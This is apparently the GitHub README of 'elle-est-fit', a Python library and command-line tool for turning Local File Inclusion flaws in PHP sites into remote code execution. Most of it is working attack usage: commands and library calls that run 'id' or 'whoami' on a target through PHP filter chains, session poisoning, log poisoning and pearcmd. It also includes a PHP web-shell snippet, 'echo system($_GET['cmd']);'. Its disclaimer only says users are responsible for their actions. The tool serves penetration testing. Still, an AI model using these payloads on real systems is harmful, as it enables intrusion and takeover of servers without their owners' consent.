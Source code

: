 # elle-est-fit (she is fit) 🏋️‍♀️
![License](https://img.shields.io/badge/license-MIT-green)

![fitgirl](/assets/logo.png)

**elle-est-fit** is a Local File Inclusion (LFI) to Remote Code Execution (RCE) framework that works both as a Python library and a command-line tool. It provides multiple exploitation techniques to leverage LFI vulnerabilities for security testing.

## 🚀 Features

- **Multiple Exploitation Techniques**:
  - lfi2rce via PHP Filter Chain
  - lfi2rce via php session poisoning
  - lfi2rce via log poisening via different log files (nginx,ssh,ftp,apache,httpd...)
  - lfi2rce via pearcmd
  - cnext exploits
  - ? more to come ?
  
- **Flexible**:
  - Use as a command-line tool or Python library
  - Custom payload and PHP code support
  
- **Custom implementation**:
  - Modular architecture for easy extension
  - Custom request handlers for complex scenarios

## 📦 Installation

```bash
# From PyPI
pip install elle-est-fit

# From source
git clone https://github.com/sofianeelhor/elle-est-fit.git
cd elle-est-fit
pip install -e .
```

## 🔧 Quick Start

### Command-Line Usage

```bash
# Basic usage with automatic technique detection
elle-est-fit --url 'http://vulnerable.com/?page=FUZZ'

# Specify a technique and execute a custom command
elle-est-fit --url 'http://vulnerable.com/?page=FUZZ' --technique php_filters --custom-cmd 'id'

# Double URL encode the payload and use custom PHP code
elle-est-fit --url 'http://vulnerable.com/?page=FUZZ' --double-url-encode --php 'passthru("id");'

# Generate a PHP filter chain without exploitation
elle-est-fit --dump-chain '<?php phpinfo(); ?>'

# Display all available techniques
elle-est-fit --list-techniques

# Quick inline script to tamper with the payload
elle-est-fit --url 'http://vulnerable.com/?date=current_date&pageFUZZ' --tamper 'import datetime;current_date=datetime.datetime.now().strftime("%Y-%m-%d"); return f"?date={current_date}&page={payload}"'
```

### Python Library Usage

```python
from elle_est_fit import LFI

# Basic usage
lfi = LFI(target="http://vulnerable.com/?page={}")
if lfi.exploit():
    output = lfi.shell("id")
    print(output)

# Advanced usage with specific technique
lfi = LFI(
    target="http://vulnerable.com/?page={}",
    technique="php_filters",
    double_url_encode=True,
    php_code="echo system($_GET['cmd']);"
)
if lfi.exploit():
    print(lfi.shell("whoami"))
```

## 📚 Documentation

For detailed documentation, please refer to:

- [CLI Documentation](docs/cli.md) - Command-line usage guide
- [API Documentation](docs/code.md) - Library usage and customization

## 🔍 Advanced Usage Example

### Custom Techniques

Elle-Est-Fit is designed to be easily extensible. Here's a basic example of how to implement a custom technique:

```python
from elle_est_fit.techniques.base import TechniqueBase
from elle_est_fit import LFI

# Create your custom technique
class MyCustomTechnique(TechniqueBase):
    name = "my_custom"
    description = "My custom LFI exploitation technique"
    
    # Implement required methods
    def detect(self):
        # Detection logic
        return True
        
    def exploit(self):
        # Exploitation logic
        self.shell_path = "/path/to/shell"
        return True
        
    def execute(self, command):
        # Command execution logic
        return "Command output"

# Register and use your technique
lfi = LFI(target="http://vulnerable.com/?file={}")
lfi._technique = MyCustomTechnique(
    target=lfi.target,
    double_url_encode=lfi.double_url_encode
)
lfi.exploit()
```

### Second-Order LFI

For second-order LFI vulnerabilities where the file inclusion happens after another action:

```python
import requests
from elle_est_fit import LFI

def second_order_leak(file_path):
    session = requests.Session()
    
    # First action that sets up the LFI condition
    session.post("http://vulnerable.com/upload.php", 
                data={"filename": file_path})
    
    # Second action that triggers the file inclusion
    response = session.get("http://vulnerable.com/view.php")
    return response.text

lfi = LFI(leak_function=second_order_leak, technique="php_filters")
if lfi.exploit():
    print(lfi.shell("id"))
```

## 🤝 Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

1. Fork the repository
2. Create your feature branch (`git checkout -b feature/amazing-feature`)
3. Commit your changes (`git commit -m 'Add some amazing feature'`)
4. Push to the branch (`git push origin feature/amazing-feature`)
5. Open a Pull Request

## 📄 License

This project is licensed under the MIT License - see the LICENSE file for details.

## ⚠️ Disclaimer

I should not be the one to tell you what to do with this, but don't be stupid, you are responsible for your actions.

## 🙏 Acknowledgements

- the goat cfreal for carrying the php security scene with his blogs https://x.com/cfreal_
- https://www-leavesongs-com.translate.goog/PENETRATION/docker-php-include-getshell.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=nl&_x_tr_pto=wapp#0x06-pearcmdphp
- PHP Filter Chains technique based on research by [https://www.synacktiv.com/en/publications/php-filter-chains-what-is-it-and-how-to-use-it.html](https://www.synacktiv.com/en/publications/php-filter-chains-what-is-it-and-how-to-use-it.html)
- wrapwrap https://blog.lexfo.fr/wrapwrap-php-filters-suffix.html
- Inspired by various LFI exploitation techniques researched by the security community so I can't tell you who to thank but the first time when I saw it :)